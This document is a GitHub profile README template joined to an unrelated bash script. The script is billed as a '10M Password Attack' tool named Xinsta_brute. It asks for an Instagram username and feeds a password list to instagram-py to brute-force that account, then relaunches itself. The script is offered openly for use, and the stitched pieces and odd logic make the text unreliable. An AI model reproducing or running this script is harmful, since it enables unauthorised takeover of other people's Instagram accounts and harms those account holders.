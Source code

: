 - 👋 Hi, I’m vikrant
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
78605513818/78605513818 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#10M passwors here
grn='\033[1;32m'
red='\033[1;31m'
rset='\033[0m'
ylo='\033[1;33m'
#!/bin/bash
clear
echo
echo '
   
__  ___           _            _                _       
\ \/ (_)_ __  ___| |_ __ _    | |__  _ __ _   _| |_ ___ 
 \  /| | |_ \/ __| __/ _  |   |  _ \|  __| | | | __/ _ \
 /  \| | | | \__ \ || (_| |   | |_) | |  | |_| | ||  __/
/_/\_\_|_| |_|___/\__\__,_|___|_.__/|_|   \__,_|\__\___|
                         |_____|                        
               [#] 10M Password Attack [#]
' |lolcat
printf "\n"
printf "       \e[101m\e[1;77m  >>  Script By VIKRANT KAJAL   << \e[0m\n"
printf "\n"
printf "      \e[100m\e[1;77m >>  Youtube Channel : \e[1;77m Badlife628 \e[100m\e[1;77m << \e[0m\n"
printf "\n"
echo
read -p "[#] Enter Instagram ID/Username : " usrnm
echo
inspass=pass.txt
echo -e "\e[1;31m Loading 10M Passwords... \e[0m"
sleep 4
if [ $inspass = 0 ]                                             
then
echo -e  "$ylo >>> exiting........! Bye Bye :) <<<$rset"        
else

  instagram-py --username $usrnm --password-list $inspass

echo
sleep 30.0
cd /data/data/com.termux/files/home
fi
sleep 30.0
cd /data/data/com.termux/files/home/xinsta_brute
bash xinsta_brute.sh
